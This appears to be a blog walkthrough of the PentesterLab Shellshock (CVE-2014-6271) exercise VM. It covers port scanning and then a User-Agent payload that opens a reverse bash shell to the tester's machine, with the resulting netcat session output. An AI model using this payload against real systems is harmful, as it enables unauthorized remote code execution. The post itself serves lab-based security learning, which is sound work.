 ```yaml
---
layout: blog_item
title:  "Pen Testers Lab: Shellshock CVE-2014-6271 - Walkthrough"
date:   2024-03-30 10:00:10
author: Dhruv Ambaliya
description: 'Shellshock CVE-2014-6271 Pen Testers Lab - Walkthrough'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This course details the exploitation of the vulnerability **CVE-2014-6271** AKA **Shellshock**. This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI".

**Author:** PentesterLab

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>This is not a challenge VM</h5>
  <p>This VM is part of the exercises provided by <a href="https://pentesterlab.com">PenTestersLab.com</a>, it's not a challenge VM (there is no flag to capture). </p>
</div>

## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.221.144

{% endhighlight %}

### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 6.0 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((Unix) DAV/2)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Website Inspection

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Shellshock Burp Suite](/img/blog/pentesterslab/shellshock/shellshock-burp.png)


## Burp Suite - Send Reverse Shellshock

Burp Suite was used to manipulate the <code>User Agent:</code> and deliver the following payload:  

{% highlight bash %}

() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

![Burp Suite Shellshock Payload](/img/blog/pentesterslab/shellshock/shellshock-payload-burp.png)

## Reverse Shell

Successfully connecting to the listening netcat instance:

{% highlight bash %}
[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...
192.168.221.144: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.144] 44254
bash: no job control in this shell
bash-4.2$ id
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)

{% endhighlight %}

End of exercise.

Thanks for the VM :)
